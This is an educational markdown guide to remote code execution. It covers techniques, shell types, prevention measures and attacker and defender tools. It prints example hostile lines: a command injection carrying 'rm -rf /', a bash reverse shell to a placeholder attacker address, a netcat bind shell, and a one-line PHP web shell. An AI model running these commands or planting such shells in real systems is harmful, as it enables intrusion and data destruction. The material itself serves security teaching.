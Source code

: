 <br>

# Remote Code Execution (RCE)
Remote Code Execution (RCE) is **a critical security vulnerability that allows an attacker to execute arbitrary code on a remote machine, typically with the privileges of the exploited application or service**. Once RCE is achieved, attackers often escalate their privileges or establish persistent access by getting a shell on the target system.

## 1. How RCE Works
RCE exploits vulnerabilities in applications, services, or protocols to execute code provided by the attacker.
  - **Input Validation Issues**
    - Unvalidated or unsanitized user input is directly processed as executable code.
    - Example: Command injection or deserialization vulnerabilities.
  - **Software Bugs**
    - Exploiting flaws in software logic or memory management.
    - Example: Buffer overflows or use-after-free vulnerabilities.
  - **Configuration Weaknesses**
    - Misconfigured systems or applications allowing unintended code execution.
    - Example: Misconfigured web servers executing user-uploaded scripts.  
<br>

## 2. Techniques to Achieve RCE
### a. Injection Vulnerabilities
  - **Command Injection**
    - Injecting malicious commands into a vulnerable system that executes them.
    - Example  

```
GET /ping?ip=127.0.0.1;rm -rf / HTTP/1.1
```

  - **SQL Injection with Execution**
    - Exploiting database functions to execute system commands.
    - Example: xp_cmdshell in SQL Server.

### b. Deserialization Attacks
  - Definition: Sending malicious serialized objects to applications that deserialize data insecurely.
  - Example:
    - Injecting payloads into Java or Python serialized objects to execute commands.

### c. Exploiting Memory Corruption
  - **Buffer Overflow**
    - Overwriting memory locations to execute arbitrary code.
  - **Return-Oriented Programming (ROP)**
    - Using existing executable code (gadgets) in memory to achieve execution.

### d. Exploiting Web Application Vulnerabilities
  - **File Uploads**
    - Uploading malicious scripts to servers and accessing them via a browser.
  - **Remote File Inclusion (RFI)**
    - Including external malicious scripts via unsanitized URLs.

### e. Exploiting Remote Services
  - **Exposed APIs**
    - Sending payloads to vulnerable APIs that execute code.
  - **Weak Authentication**
    - Exploiting poorly protected admin panels or services to execute commands.  
<br>

## 3. Getting Shells
Once RCE is achieved, attackers often aim to establish a shell for interactive access to the target system.

### a. Reverse Shell
  - Definition: A shell that connects back to the attacker’s machine.
  - Mechanism:
    - The **attacker sets up a listener** on their machine.
    - The payload on the victim’s machine opens a connection to the attacker.
  - Example (Bash)  

```
bash -i >& /dev/tcp/attacker_ip/port 0>&1
```

### b. Bind Shell
  - Definition: A shell that **listens on a port on the target machine, allowing the attacker to connect** to it.
  - Mechanism:
    - The target machine opens a port and binds the shell to it.
    - **The attacker connects to this port** to access the shell.
  - Example (Netcat)  

```
nc -lvp 4444 -e /bin/bash
```

### c. Web Shell
  - Definition: A malicious script uploaded to a web server that provides remote command execution via HTTP requests.
  - Example (PHP)  

```
<?php echo shell_exec($_GET['cmd']); ?>
```
  
<br>

## 4. Prevention of RCE and Shell Exploits
### a. Input Validation and Sanitization
  - **Validate and sanitize all user inputs**, especially those interacting with system commands or file paths.
  - Example: Use parameterized queries in SQL to prevent SQL injection.

### b. Secure Coding Practices
  - **Avoid insecure functions** (e.g., eval(), exec(), system()).
  - Use safer alternatives or libraries for handling external processes.

### c. Patch Management
  - **Regularly update and patch** software to fix known vulnerabilities.

### d. Access Controls
  - **Restrict access** to sensitive services and endpoints.
  - Use strong authentication for administrative interfaces.

### e. Configure Systems Securely
  - **Disable unused features or functions** (e.g., xp_cmdshell in SQL Server).
  - Set appropriate file permissions to prevent unauthorized execution.

### f. Use Security Tools
  - **Web Application Firewalls (WAFs)**
    - Block malicious payloads targeting web applications.
  - **Endpoint Detection and Response (EDR)**
    - Monitor and detect malicious activity on endpoints.
  - **Intrusion Detection Systems (IDS)**
    - Identify and alert on suspicious behavior, such as unexpected reverse shell activity.

### g. Segmentation and Least Privilege
  - **Isolate critical systems** to limit the impact of RCE.
  - Ensure processes run with the **minimum privileges** needed.  
<br>

## 5. Tools Used by Attackers and Defenders

### a. Tools for Exploitation
  - **Metasploit**
    - A framework for developing and executing exploits.
  - **Netcat**
    - A utility for reverse and bind shells.
  - **Cobalt Strike**
    - A commercial tool often used in penetration testing (and by attackers).

## b. Tools for Prevention and Detection
  - **Snort/Suricata**
    - **Network-based IDS/IPS** for detecting malicious traffic.
  - **OSQuery**
    - **Monitors system** behavior to identify abnormal processes.
  - **SIEM Solutions**
    - **Aggregates logs and alerts to detect RCE and shell activity**.  
<br>

## 6. Summary

| Aspect | Details |
| ------ | ------- |
| What Is RCE? | A vulnerability allowing execution of arbitrary code on a remote system. |
| Common Techniques | Command injection, deserialization, memory corruption, and file uploads. |
| Shell Types | Reverse shell, bind shell, web shell. |
| Prevention Strategies | Input validation, secure coding, patch management, and access controls. |
| Key Tools | Metasploit, Netcat, WAFs, IDS, EDR. |

**Remote Code Execution (RCE) is one of the most critical and dangerous vulnerabilities, often serving as a gateway to more severe attacks like data breaches or ransomware deployment**. By understanding how RCE works, including its techniques and preventive measures, organizations can significantly enhance their defenses against these threats and safeguard their systems from exploitation.  
<br>